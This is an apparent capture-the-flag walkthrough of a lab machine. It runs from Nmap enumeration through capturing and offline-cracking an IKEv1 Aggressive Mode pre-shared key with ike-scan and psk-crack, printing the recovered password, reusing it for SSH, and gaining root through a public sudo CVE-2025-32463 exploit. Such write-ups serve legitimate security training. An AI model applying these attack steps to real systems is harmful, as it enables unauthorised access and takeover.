



# Walkthrough


## Information Gathering: 


### Nmap Scans: 

All Port Scan:
```
PORT      STATE    SERVICE
22/tcp    open     ssh
4129/tcp  filtered nuauth
7486/tcp  filtered unknown
22493/tcp filtered unknown
23731/tcp filtered unknown
23760/tcp filtered unknown
43479/tcp filtered unknown
44209/tcp filtered unknown
```


`-sC -sV` scan: 
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The next scan is focussed on port 4129:
`sudo nmap 10.129.238.52 -p 4129 --packet-trace -n --disable-arp-ping -Pn`
```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-06 20:47 +0100
SENT (0.0619s) TCP 10.10.15.186:44717 > 10.129.238.52:4129 S ttl=47 id=19204 iplen=44  seq=1074945241 win=1024 <mss 1460>
RCVD (0.1481s) TCP 10.129.238.52:4129 > 10.10.15.186:44717 RA ttl=63 id=0 iplen=40  seq=0 win=0 
Nmap scan report for 10.129.238.52
Host is up (0.086s latency).

PORT     STATE  SERVICE
4129/tcp closed nuauth
```

This packet trace tells us that port 4129 is closed, but that the host is reachable.

#### Port 4129 - nuauth: 

Port 4129 is officially registered for nuauth, the authentication server component of NuFW (an authenticating firewall), using TCP and UDP protocols. It serves as the default listening port where client applications or authentication agents connect to the NuFW authentication daemon.


#### UDP Port Scans: 

`sudo nmap 10.129.238.52 -F -sU`                                      
```
PORT     STATE         SERVICE
68/udp   open|filtered dhcpc
69/udp   open|filtered tftp
500/udp  open          isakmp
4500/udp open|filtered nat-t-ike
```


68/udp	  DHCP Client	Normally a client port. Seeing it externally is unusual; it may simply be Nmap being unable to distinguish open from filtered for UDP.
69/udp	  TFTP server. Responds to requests and is likely Netkit tftpd or atftpd.
500/udp	  ISAKMP/IKE	Internet Key Exchange (IPsec VPN). This is definitely responding.
4500/udp NAT-T IKE	IPsec NAT Traversal, used when VPN peers are behind NAT.


Version scan on UDP ports:
`sudo nmap 10.129.42.62 -F -sU -sV`
```
PORT     STATE         SERVICE   VERSION
68/udp   open|filtered dhcpc
69/udp   open          tftp      Netkit tftpd or atftpd
500/udp  open          isakmp?
4500/udp open|filtered nat-t-ike
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port500-UDP:V=7.99%I=7%D=8/7%Time=6A759E00%P=x86_64-pc-linux-gnu%r(IKE_
SF:MAIN_MODE,70,"\0\x11\"3DUfwh\x7fk\xe4\(&\xe04\x01\x10\x02\0\0\0\0\0\0\0
SF:\0p\r\0\x004\0\0\0\x01\0\0\0\x01\0\0\0\(\x01\x01\0\x01\0\0\0\x20\x01\x0
SF:1\0\0\x80\x01\0\x05\x80\x02\0\x02\x80\x04\0\x02\x80\x03\0\x01\x80\x0b\0
SF:\x01\x80\x0c\0\x01\r\0\0\x0c\t\0&\x89\xdf\xd6\xb7\x12\0\0\0\x14\xaf\xca
SF:\xd7\x13h\xa1\xf1\xc9k\x86\x96\xfcwW\x01\0")%r(IPSEC_START,9C,"1'\xfc\x
SF:b08\x10\x9e\x89\x15TC}/\(\xdd\)\x01\x10\x02\0\0\0\0\0\0\0\0\x9c\r\0\x00
SF:4\0\0\0\x01\0\0\0\x01\0\0\0\(\x01\x01\0\x01\0\0\0\x20\x01\x01\0\0\x80\x
SF:01\0\x05\x80\x02\0\x02\x80\x04\0\x02\x80\x03\0\x03\x80\x0b\0\x01\x80\x0
SF:c\x0e\x10\r\0\0\x0c\t\0&\x89\xdf\xd6\xb7\x12\r\0\0\x14\xaf\xca\xd7\x13h
SF:\xa1\xf1\xc9k\x86\x96\xfcwW\x01\0\r\0\0\x18@H\xb7\xd5n\xbc\xe8\x85%\xe7
SF:\xde\x7f\0\xd6\xc2\xd3\x80\0\0\0\0\0\0\x14\x90\xcb\x80\x91>\xbbin\x08c\
SF:x81\xb5\xecB{\x1f");
```


##### Port 69: TFTP

Trivial File Transfer Protocol (TFTP) 
Simple, easy to implement and lacking the authentication features of FTP. 
Commonly used for booting diskless workstations, uploading configs to network devices and firmware updates. 


`sudo nmap 10.129.42.62 -sU -p 69 --script=tftp-enum,tftp-version.nse`

```
PORT   STATE SERVICE
69/udp open  tftp
| tftp-version: 
|   p: Netkit tftpd or atftpd
|   cpe: 
|     cpe:/a:netkit:netkit
|_    cpe:/a:lefebvre:atftpd
```

The target is running either:
- **Netkit tftpd** – An older, lightweight TFTP daemon commonly found on Unix/Linux systems.
- **atftpd** – The Advanced TFTP Daemon, which supports additional features such as multicast and larger transfers.


```
└─$ tftp 10.129.42.62                                                   
tftp> binary
tftp> get test
Transfer timed out.

tftp> 
```


Metasploit has a module that can be used to bruteforce files on the TFTP server:
```
auxiliary(scanner/tftp/tftpbrute)
```

This was run against the target.... but no results were obtained. 

---

## Exploitation: 

### Port 500: isakmp

Enumeration of the ISAKMP service was conducted with `ike-scan`:

`ike-scan 10.129.42.62`
```
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.129.42.62    Main Mode Handshake returned HDR=(CKY-R=3ca6f47c1f8eb1df) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.099 seconds (10.08 hosts/sec).  1 returned handshake; 0 returned notify
```

The target responded to the `ike-scan`. This might imply that the protocol is `IKEv1`. 

Below is a breakdown of the response fields:

| Field          | Value                    | Explanation                                                             |
| -------------- | ------------------------ | ----------------------------------------------------------------------- |
| Target         | `10.129.42.62`           | Host running the IKE/IPsec service                                      |
| Protocol       | IKEv1                    | VPN key exchange protocol detected                                      |
| Handshake      | Main Mode                | Standard IKEv1 negotiation; protects identity information               |
| HDR            | `CKY-R=3ca6f47c1f8eb1df` | Responder cookie used to identify the IKE session                       |
| Encryption     | `3DES`                   | Encryption algorithm used for VPN traffic; considered legacy            |
| Hash           | `SHA1`                   | Integrity algorithm; SHA-1 is outdated                                  |
| DH Group       | `2:modp1024`             | Diffie-Hellman key exchange group; 1024-bit is weak by modern standards |
| Authentication | `PSK`                    | Pre-shared key authentication                                           |
| Lifetime       | `28800 seconds`          | Security Association lifetime (8 hours)                                 |
| Vendor ID      | `XAUTH`                  | Extended authentication support (usually username/password after PSK)   |
| Vendor ID      | `Dead Peer Detection`    | Detects failed VPN peers and removes stale sessions                     |

IKEv1 also supports two negotiation modes:

**Main Mode** - More secure, identities protected

**Aggressive Mode** - Faster but leaks more information


An Aggressive scan was then conducted against the service: 
```
└─$ ike-scan -A 10.129.42.62 
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.129.42.62    Aggressive Mode Handshake returned HDR=(CKY-R=c35137a21ca8288b) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)
```

`Value=ike@expressway.htb` is returned which may reveal username and domains that can be used to exploit the target.


The next scan below is going to **capture the IKEv1 Aggressive Mode handshake in a format suitable for PSK cracking**:
```
└─$ ike-scan -A --id=ike@expressway.htb --pskcrack=handshake.psk 10.129.42.62
```

A file called handshake.psk will be saved in the current directory. An attempt to crack it is then made with: 
```
└─$ psk-crack -d /usr/share/wordlists/rockyou.txt handshake.psk
```

This potentially reveals a password that can be used against the target:
`freakingrockstarontheroad`



The password discovered was reused by the user to log in via ssh to the target machine:





---

## Privilege Escalation: 

the user `ike` does not have permissions to run sudo on the target machine. 

The sudo version is **1.9.17** 

### CVE-2025-32463: 

https://github.com/kh4sh3i/CVE-2025-32463

"CVE-2025-32463 is a local privilege escalation vulnerability in the Sudo binary. The flaw allows a local user to escalate privileges to root under specific misconfigurations or with crafted inputs. The issue was discovered by Rich Mirch."

The vulnerability stems from unsafe handling of the --chroot (`-R`) option, which allows an attacker to trick sudo into loading a malicious nsswitch.conf configuration file. This leads to arbitrary code execution with the highest privileges (root).

The exploit from the resource above was downloaded onto the target machine and executed to gain root: 




# Summary: 

The assessment began with comprehensive TCP and UDP enumeration of the target. Initial Nmap scans identified SSH (OpenSSH 10.0p2) as the only confirmed TCP service, while additional investigation revealed a TFTP service on UDP port 69 and an IPsec VPN using IKEv1 on UDP port 500. Enumeration of the TFTP service using Nmap scripts and Metasploit's TFTP brute-force module did not reveal any accessible files. Attention then shifted to the IKE service, where ike-scan identified an IKEv1 implementation using legacy cryptographic algorithms (3DES, SHA-1, and DH Group 2) with pre-shared key (PSK) authentication. An Aggressive Mode handshake disclosed the identity `ike@expressway.htb`, enabling capture of the handshake for offline PSK cracking. Using psk-crack with the rockyou.txt wordlist successfully recovered the pre-shared key which was reused as valid SSH credentials to obtain initial access as the ike user.

Following successful authentication, privilege escalation opportunities were assessed. Although the compromised user did not have permission to execute commands via sudo, the host was found to be running sudo version 1.9.17, which is vulnerable to CVE-2025-32463. This local privilege escalation vulnerability abuses the --chroot (-R) functionality to load a malicious nsswitch.conf configuration, resulting in arbitrary code execution with root privileges. A publicly available proof-of-concept exploit was transferred to the target and executed successfully, allowing elevation from the low-privileged ike account to full root access, completing compromise of the system.